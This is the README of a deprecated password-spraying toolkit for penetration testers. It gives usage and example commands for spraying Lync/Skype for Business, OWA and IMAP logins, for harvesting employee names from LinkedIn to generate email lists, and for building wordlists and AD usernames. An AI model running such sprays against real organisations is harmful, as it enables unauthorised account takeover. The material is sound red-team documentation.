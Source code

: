 # Deprecation Notice

This project is no longer maintained. The following alternative projects are better and actively maintained:

- [TREVORspray](https://github.com/blacklanternsecurity/TREVORspray)
- [CredMaster](https://github.com/knavesec/CredMaster)

# SprayingToolkit

<p align="center">
  <img src="http://38.media.tumblr.com/79d7e2a376cb96fb581b3453070f6229/tumblr_ns5suorqYu1szok8ro1_500.gif" alt="SprayingToolkit"/>
</p>


## Description

A set of Python scripts/utilities that *tries* to make password spraying attacks against Lync/S4B & OWA a lot quicker, less painful and more efficient.

## Sponsors
[<img src="https://www.blackhillsinfosec.com/wp-content/uploads/2016/03/BHIS-logo-L-300x300.png" width="130" height="130"/>](https://www.blackhillsinfosec.com/)
[<img src="https://handbook.volkis.com.au/assets/img/Volkis_Logo_Brandpack.svg" width="130" hspace="10"/>](https://volkis.com.au)
[<img src="https://user-images.githubusercontent.com/5151193/85817125-875e0880-b743-11ea-83e9-764cd55a29c5.png" width="200" vspace="21"/>](https://qomplx.com/blog/cyber/)
[<img src="https://user-images.githubusercontent.com/5151193/86521020-9f0f4e00-be21-11ea-9256-836bc28e9d14.png" width="250" hspace="20"/>](https://ledgerops.com)
[<img src="https://user-images.githubusercontent.com/5151193/87607538-ede79e00-c6d3-11ea-9fcf-a32d314eb65e.png" width="170" hspace="20"/>](https://www.guidepointsecurity.com/)
[<img src="https://user-images.githubusercontent.com/5151193/95542303-a27f1c00-09b2-11eb-8682-e10b3e0f0710.jpg" width="200" hspace="20"/>](https://lostrabbitlabs.com/)

## Official Discord Channel

Come hang out on Discord!

[![Porchetta Industries](https://discordapp.com/api/guilds/736724457258745996/widget.png?style=banner3)](https://discord.gg/khRyjTg)

## Installation

Install the pre-requisites with `pip3` as follows:

```bash
sudo -H pip3 install -r requirements.txt
```

Or use a Python virtual environment if you don't want to install the packages globally.

## Tool Overview

### Atomizer

A blazing fast password sprayer for Lync/Skype For Business and OWA, built on Asyncio and Python 3.7

#### Usage
```
Usage:
    atomizer (lync|owa|imap) <target> <password> <userfile> [--targetPort PORT] [--threads THREADS] [--debug]
    atomizer (lync|owa|imap) <target> <passwordfile> <userfile> --interval <TIME> [--gchat <URL>] [--slack <URL>] [--targetPort PORT][--threads THREADS] [--debug]
    atomizer (lync|owa|imap) <target> --csvfile CSVFILE [--user-row-name NAME] [--pass-row-name NAME] [--targetPort PORT] [--threads THREADS] [--debug]
    atomizer (lync|owa|imap) <target> --user-as-pass USERFILE [--targetPort PORT] [--threads THREADS] [--debug]
    atomizer (lync|owa|imap) <target> --recon [--debug]
    atomizer -h | --help
    atomizer -v | --version

Arguments:
    target         target domain or url
    password       password to spray
    userfile       file containing usernames (one per line)
    passwordfile   file containing passwords (one per line)

Options:
    -h, --help               show this screen
    -v, --version            show version
    -c, --csvfile CSVFILE    csv file containing usernames and passwords
    -i, --interval TIME      spray at the specified interval [format: "H:M:S"]
    -t, --threads THREADS    number of concurrent threads to use [default: 3]
    -d, --debug              enable debug output
    -p, --targetPort PORT    target port of the IMAP server (IMAP only) [default: 993]
    --recon                  only collect info, don't password spray
    --gchat URL              gchat webhook url for notification
    --slack URL              slack webhook url for notification
    --user-row-name NAME     username row title in CSV file [default: Email Address]
    --pass-row-name NAME     password row title in CSV file [default: Password]
    --user-as-pass USERFILE  use the usernames in the specified file as the password (one per line)
```

#### Examples

```bash
./atomizer.py owa contoso.com 'Fall2018' emails.txt
```

```bash
./atomizer.py lync contoso.com 'Fall2018' emails.txt
```

```bash
./atomizer lync contoso.com --csvfile accounts.csv
```

```bash
./atomizer lync contoso.com --user-as-pass usernames.txt
```

```bash
./atomizer owa 'https://owa.contoso.com/autodiscover/autodiscover.xml' --recon
```

```bash
./atomizer.py owa contoso.com passwords.txt emails.txt -i 0:45:00 --gchat <GCHAT_WEBHOOK_URL>
```

### Vaporizer

A port of [@OrOneEqualsOne](https://twitter.com/OrOneEqualsOne)'s [GatherContacts](https://github.com/clr2of8/GatherContacts) Burp extension to [mitmproxy](https://mitmproxy.org/) with some improvements.

Scrapes Google and Bing for LinkedIn profiles, automatically generates emails from the profile names using the specified pattern and performes password sprays in real-time.

(Built on top of Atomizer)

#### Examples

```bash
mitmdump -s vaporizer.py --set sprayer=(lync|owa) --set domain=domain.com --set target=<domain or url to spray> --set password=password --set email_format='{f}.{last}'
```

By default `email_format` is set to `{first}.{last}` pattern and is not a required argument.

The `domain` parameter is the domain to use for generating emails from names, the `target` parameter is the domain or url to password spray

Install the mitmproxy cert, set the proxy in your browser, go to google and/or bing and search (make sure to include the `/in`):

`site:linkedin.com/in "Target Company Name"`

Emails will be dumped to `emails.txt` in the specified format, and passed to Atomizer for spraying.


### Aerosol

Scrapes all text from the target website and sends it to [AWS Comprehend](https://aws.amazon.com/comprehend/) for analysis to generate custom wordlists for password spraying.

**Still a work in progress**

#### Usage

```bash
mitmdump -s aerosol.py --set domain=domain.com
```

### Spindrift

Converts names to active directory usernames (e.g `Alice Eve` => `CONTOSO\aeve`)

#### Usage

```
Usage:
    spindrift [<file>] [--target TARGET | --domain DOMAIN] [--format FORMAT]

Arguments:
    file    file containing names, can also read from stdin

Options:
    --target TARGET   optional domain or url to retrieve the internal domain name from OWA
    --domain DOMAIN   manually specify the domain to append to each username
    --format FORMAT   username format [default: {f}{last}]
```

#### Examples

Reads names from STDIN, `--domain` is used to specify the domain manually:

```bash
cat names.txt | ./spindrift.py --domain CONTOSO
```

Reads names from `names.txt`, `--target` dynamically grabs the internal domain name from OWA (you can give it a domain or url)

```bash
./spindrift.py names.txt --target contoso.com
```

## Docker

Build the Docker container

```bash
docker build -t sprayingtoolkit .
```

Run the docker container with a specific tool

```bash
docker run -t sprayingtoolkt /spraying/<tool> <args>
```
